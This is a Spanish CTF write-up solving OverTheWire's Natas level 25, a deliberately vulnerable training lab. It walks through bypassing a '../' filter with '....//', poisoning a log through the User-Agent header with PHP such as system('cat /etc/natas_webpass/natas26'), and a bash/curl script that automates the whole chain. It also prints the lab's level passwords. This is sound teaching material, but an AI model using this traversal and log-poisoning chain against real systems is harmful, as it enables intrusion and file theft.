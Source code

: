 ```yaml
---
title: Natas-25
published: true
---
```


```
Url del reto: http://natas25.natas.labs.overthewire.org/index.php
login:natas25
 pass: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Se nos presenta el siguiente código:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

Las funciones que vamos a tener en cuenta son:

```php
function safeinclude()
function logRequest($message)
```

Lo primero que hice es intentar mediante ruta relativa llegar al fichero donde esta la pass que es en /etc/natas_webpass/natas26.
El problema es que cuando intentamos hacer una petición GET:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Nos toparemos con el primer obstáculo de la función safeinclude()

```php
if(strstr($filename,"../")){
	logRequest("Directory traversal attempt! fixing request.");
	$filename=str_replace("../","",$filename);
}
```

Podemos saltarnos este filtro repitiendo la cadena ../

```
?lang=....//....//....//....//....//etc/natas_webpass/natas26
```

Y la función la dejará así:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Ahora nos encontramos con el siguiente obstáculo:

```php
if(strstr($filename,"natas_webpass")){
	logRequest("Illegal file access detected! Aborting!");
	exit(-1);
}
```
Si detecta la cadena natas_webpass, terminará el programa y no podremos acceder a la ruta deseada.
Me he peleado bastante intentando saltarme este filtro pero no lo conseguí. Intente:

```
escapar caracteres: natas_webpas\s
colocando espacios: natas_webpass%20
Añadiendo comodines: natas_webpas[a-z], natas_webpas?, /etc/natas*/natas26, /etc/*/natas26
Añadiendo codigos ascii: saltos de linea, null (%00)
```

Intenté entrar en diferentes archivos del sistema (logs, ficheros de configuración) para ver si había alguna fuga de información.
También intenté acceder si había alguna clave ssh en el directorio home /home/natas25/.ssh/id_rsa pero nada.

Decidí ver otra parte del código, la función listFiles no veía nada raro, asi que me centré en la función logRequest().

En esta función guarda logs de las sessiones. Asi que intenté recopilar muchas cookies e ir insertanto querys para ver si en alguna cookie era de algún admin y poder ver alguna fuga de información pero tampoco conseguí nada.

Después de muchas vueltas no me estaba dando cuenta que cuando se accede a algún log. Que para ello hay que usar la ruta relativa:

```
?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_cookie.log
```

Se veían notificaciones de PHP:

```
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
          
```

Asi que, pese a ser un fichero.log, esta ejecutando código PHP. Y viendo en la función logRequest() la siguiente línea:

```php
$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
```

Viendo esto se me ocurrió algo. ¿Y si añadimos código PHP en este campo?:

```
user-agent: <?php phpinfo() ?>
```

Modifiqué desde el firefox la cabecera user-agent y funcionó

![](https://madmb.github.io/imgs/natas25-cap01.png)


En phpinfo, no estaban deshabilitadas las funciones system, exec y se me ocurrió enviar una query con el siguiente parámetro user-agent:

```
User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>
```

Automaticé todo el proceso mediante un script en bash:

```bash
#!/bin/bash

# /var/www/natas/natas25/logs/natas25_" . session_id() .".log"

# url principal
url_main='http://natas25.natas.labs.overthewire.org/index.php'

# Añadiremos al parametro User-Agent el codigo malicioso
payload="User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>"

# hacemos una peticion para extraer la cookie
curl --cookie-jar cookie.txt -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main &>/dev/null
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

# Esta consulta es para acceder al log de la cookie actual
query="?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_$cookie.log"

# Lanzamos un curl para que ejecute el codigo php $payload
curl --cookie "PHPSESSID=$cookie" --header "$payload" -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main${query} | html2text
```

El resultado es:

```
admin1@php:~$ bash natas25.bash 


****** natas25 ******
                                                       [One of: language/en/de]
[07.05.2022 16::02:59] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal
attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
                                                                View_sourcecode
```

La pass para el siguiente nivel es:

```
natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

[Volver al archivo](archive)

